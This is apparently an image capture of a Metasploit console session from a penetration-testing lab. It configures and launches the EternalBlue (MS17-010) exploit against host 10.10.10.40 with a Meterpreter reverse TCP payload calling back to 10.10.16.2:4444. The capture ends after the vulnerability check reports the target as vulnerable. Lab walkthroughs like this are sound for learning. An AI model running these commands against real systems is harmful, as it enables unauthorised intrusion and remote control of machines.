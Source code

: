 ````

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 10.10.10.40
RHOSTS => 10.10.10.40
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST tun0  
LHOST => 10.10.16.2
msf6 exploit(windows/smb/ms17_010_eternalblue) > show options                                                                                                                                                                                                                

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS         10.10.10.40      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.2       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Target



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit 

[*] Started reverse TCP handler on 10.10.16.2:4444 
[*] 10.10.10.40:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.10.40:445       - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.10.40:445       - Scanned 1 of 1 hosts (100% complete)
[+] 10.10.10.40:445 - The target is vulnerable.
````